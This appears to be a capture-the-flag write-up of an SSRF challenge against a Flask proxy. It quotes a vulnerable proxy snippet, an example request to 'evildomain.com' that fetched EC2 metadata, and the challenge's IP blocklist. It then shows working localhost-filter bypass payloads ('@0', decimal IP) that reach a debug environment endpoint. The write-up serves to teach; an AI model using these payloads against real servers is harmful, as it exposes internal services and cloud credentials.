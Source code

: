 ```yaml
---
title: "Proxy Pwn Challenge"
date: 2024-05-21
---
```



Resources 
- https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies
- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass
# Flask Proxy

A snippet taken straight from the article shows us this

> [!NOTE]
> *My first thought was: "What if the developer forgets to add the last slash in the `SITE_NAME` variable?". And yes, it can lead to an SSRF.*
> 
> *Since Flask also allows any ASCII character after the `@`, it's possible to fetch an arbitrary domain after concatenating the malicious pathname and the destination server.*
> 
> *Please consider the following source code as a reference for the exploitation scenario:*
> 
> ```
> from flask import Flask
> from requests import get
> 
> app = Flask('__main__')
> SITE_NAME = 'https://google.com'
> 
> @app.route('/', defaults={'path': ''})
> @app.route('/<path:path>')
> 
> def proxy(path):
>   return get(f'{SITE_NAME}{path}').content
> 
> if __name__ == "__main__":
>     app.run(threaded=False)
> ```
> 
> *Presented below is an example of an exploitation request:*
> 
> 
> ```
> GET @evildomain.com/ HTTP/1.1
> Host: target.com
> Connection: close
> ```
> 
> *In the following example, I was able to fetch my EC2 metadata:*
> 

# Let's give it a whirl shall we?

Looking at the code we clearly need to reach the `/enviroment` endpoint and it looks to be at the `/debug` route. 

```
GET /?url=@127.0.0.1:1337/debug/environment
```

result

```
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.0.0 Python/3.12.0
Date: Wed, 22 May 2024 04:17:03 GMT
Content-Type: application/json
Content-Length: 24
Connection: close

{"error":"Not Allowed"}
```

As we can see this did not work so searching through the provided files we can see this.

```python
RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']

def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True

def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip

```

## SSRF URL ByPass

https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass

From this we can try replacing `127.0.0.1` with any of the payloads. Let's try `@0`

```
GET /?url=@0:1337/debug/environment 
```


![[Pasted image 20240521230536.png]]

## PS
Another cool one that worked was 
```
GET /?url=@2130706433:1337/debug/environment
```
